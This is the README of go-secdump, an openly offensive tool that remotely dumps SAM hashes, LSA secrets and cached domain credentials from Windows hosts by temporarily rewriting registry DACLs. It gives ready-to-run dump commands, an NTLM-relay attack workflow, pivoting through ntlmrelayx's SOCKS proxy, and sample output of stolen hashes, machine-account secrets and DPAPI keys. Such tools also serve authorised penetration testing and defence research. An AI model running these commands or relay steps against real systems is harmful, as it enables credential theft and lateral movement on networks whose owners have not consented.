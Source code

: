 # go-secdump

## Description
Package go-secdump is a tool built to remotely extract hashes from the SAM
registry hive as well as LSA secrets and cached hashes from the SECURITY hive
without any remote agent and without touching disk.

The tool is built on top of the library [go-smb](https://github.com/jfjallid/go-smb)
and use it to communicate with the Windows Remote Registry to retrieve registry
keys directly from memory.

It was built as a learning experience and as a proof of concept that it should
be possible to remotely retrieve the NT Hashes from the SAM hive and the LSA
secrets as well as domain cached credentials without having to first save the
registry hives to disk and then parse them locally.

The main problem to overcome was that the SAM and SECURITY hives are only
readable by NT AUTHORITY\SYSTEM. However, I noticed that the local group
administrators had the WriteDACL permission on the registry hives and could
thus be used to temporarily grant read access to itself to retrieve the
secrets and then restore the original permissions.

## Credits
Much of the code in this project is inspired/taken from Impacket's secdump
but converted to access the Windows registry remotely and to only access the
required registry keys.

Some of the other sources that have been useful to understanding the registry
structure and encryption methods are listed below: 

https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

http://www.beginningtoseethelight.org/ntsecurity/index.htm

https://social.technet.microsoft.com/Forums/en-US/6e3c4486-f3a1-4d4e-9f5c-bdacdb245cfd/how-are-ntlm-hashes-stored-under-the-v-key-in-the-sam?forum=win10itprogeneral

## Usage
```
Usage: ./go-secdump [options]

options:
      --host <target>       Hostname or ip address of remote server
  -P, --port <port>         SMB Port (default 445)
  -d, --domain <domain>     Domain name to use for login
  -u, --user <username>     Username
  -p, --pass <pass>         Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash <NT Hash>      Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
      --dump                Saves the SAM and SECURITY hives to disk and
                            transfers them to the local machine.
      --sam                 Extract secrets from the SAM hive explicitly. Only other explicit targets are included.
      --lsa                 Extract LSA secrets explicitly. Only other explicit targets are included.
      --dcc2                Extract DCC2 caches explicitly. Only ohter explicit targets are included.
      --backup-dacl         Save original DACLs to disk before modification
      --restore-dacl        Restore DACLs using disk backup. Could be useful if automated restore fails.
      --backup-file         Filename for DACL backup (default dacl.backup)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
  -t, --timeout             Dial timeout in seconds (default 5)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -o, --output              Filename for writing results (default is stdout). Will append to file if it exists.
  -v, --version             Show version
```

## Changing DACLs
go-secdump will automatically try to modify and then restore the DACLs of the
required registry keys. However, if something goes wrong during the restoration
part such as a network disconnect or other interrupt, the remote registry will
be left with the modified DACLs.

Using the `--backup-dacl` argument it is possible to store a serialized copy of
the original DACLs before modification.
If a connectivity problem occurs, the DACLs can later be restored from file
using the `--restore-dacl` argument.

## Examples

Dump all registry secrets

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local
or
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2
```

Dump only SAM, LSA, or DCC2 cache secrets

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2
```

### NTLM Relaying
Dump registry secrets using NTLM relaying

Start listener
```
./go-secdump --host 192.168.0.100 -n --relay
```

Trigger an auth to your machine from a client with administrative access to
192.168.0.100 somehow and then wait for the dumped secrets.

```
YYYY/MM/DD HH:MM:SS smb [Notice] Client connected from 192.168.0.30:49805
YYYY/MM/DD HH:MM:SS smb [Notice] Client (192.168.0.30:49805) successfully authenticated as (domain.local\Administrator) against (192.168.0.100:445)!
Net-NTLMv2 Hash: Administrator::domain.local:34f4533b697afc39:b4dcafebabedd12deadbeeffef1cea36:010100000deadbeef59d13adc22dda0
2023/12/13 14:47:28 [Notice] [+] Signing is NOT required
2023/12/13 14:47:28 [Notice] [+] Login successful as domain.local\Administrator
[*] Dumping local SAM hashes
Name: Administrator
RID: 500
NT: 2727D7906A776A77B34D0430EAACD2C5

Name: Guest
RID: 501
NT: <empty>

Name: DefaultAccount
RID: 503
NT: <empty>

Name: WDAGUtilityAccount
RID: 504
NT: <empty>

[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: 0x15deadbeef645e75b38a50a52bdb67b4
$MACHINE.ACC:plain_password_hex:47331e26f48208a7807cafeababe267261f79fdc38c740b3bdeadbeef7277d696bcafebabea62bb5247ac63be764401adeadbeef4563cafebabe43692deadbeef03f...
[*] DPAPI_SYSTEM
dpapi_machinekey: 0x8afa12897d53deadbeefbd82593f6df04de9c100
dpapi_userkey: 0x706e1cdea9a8a58cafebabe4a34e23bc5efa8939
[*] NL$KM
NL$KM: 0x53aa4b3d0deadbeef42f01ef138c6a74
[*] Dumping cached domain credentials (domain/username:hash)
DOMAIN.LOCAL/Administrator:$DCC2$10240#Administrator#97070d085deadbeef22cafebabedd1ab
...
```

### SOCKS Proxy
Dump secrets using an upstream SOCKS5 proxy either for pivoting or to take
advantage of Impacket's ntlmrelayx.py SOCKS server functionality.

When using ntlmrelayx.py as the upstream proxy, the provided username must match
that of the authenticated client, but the password can be empty.

```
./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server
...

./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080
```
